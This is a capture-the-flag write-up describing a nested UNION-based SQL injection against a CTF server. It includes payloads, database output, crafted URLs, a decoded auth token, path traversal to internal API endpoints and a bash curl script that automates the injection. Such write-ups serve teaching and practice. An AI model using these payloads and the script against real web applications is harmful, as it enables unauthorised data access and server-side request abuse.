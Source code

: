 Now the payload `' UNION select null,null,'xyz.jpg'` will be fed to the second query which will make it .

```
select id, album_id, photo from photo where album_id='' UNION select null,null,'xyz.jpg'

MariaDB [test]> select id, album_id, photo from photo where album_id='' UNION select null,null,'xyz.jpg'
    -> ;
+------+----------+---------+
| id   | album_id | photo   |
+------+----------+---------+
| NULL |     NULL | xyz.jpg |
+------+----------+---------+
1 row in set (0.078 sec)
```

Now if we will request `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=' UNION SELECT "' UNION select NULL,NULL,'xyz.jpg';--",NULL,NULL;--`

We will get the following response

{F1138181}

Decoding the base64 will give the following output.

```json
{"image":"r3c0n_server_4fdk59\/uploads\/xyz.jpg","auth":"5717163084e61f4b89336af25ae5d503"}
```

As you can see the xyz.jpg provided in the payload is getting reflected in the base64 string the "auth" token for the respective path is also being generated by the server , what if we provide "../api/test" in our payload

{F1138183}

So we can now alter the path in the "image" also, requesting the URL https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL3h5ei5qcGciLCJhdXRoIjoiNTcxNzE2MzA4NGU2MWY0Yjg5MzM2YWYyNWFlNWQ1MDMifQ== will now give the response as "Expected HTTP status 200, Received: 404"

Looks like we are now able to successfully call the /api/* endpoints from internal server.

Also the api document suggests that 404 refers to no valid endpoint, It was time for sum fuzzing. Now let's get back to the story..
___________________________________________________________________________________________________________

Mr.R3b00t decided to create the script F1138199 to automate the process of enumerating the api endpoints.

```bash
#!/bin/bash

YELLOW="\e[93m"
NORMAL="\e[39m"

OP=`curl -sgi "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=x' UNION SELECT \"' UNION SELECT null,null,'$1'--+\",null,null--+" | grep -Eoi "src=\"\/r[^+]+\"" | cut -d '"' -f 2`
OP_TWO=`curl -GkLs "https://hackyholidays.h1ctf.com$OP"`
echo -e "${YELLOW}[$1]${NORMAL} : $OP_TWO"
```
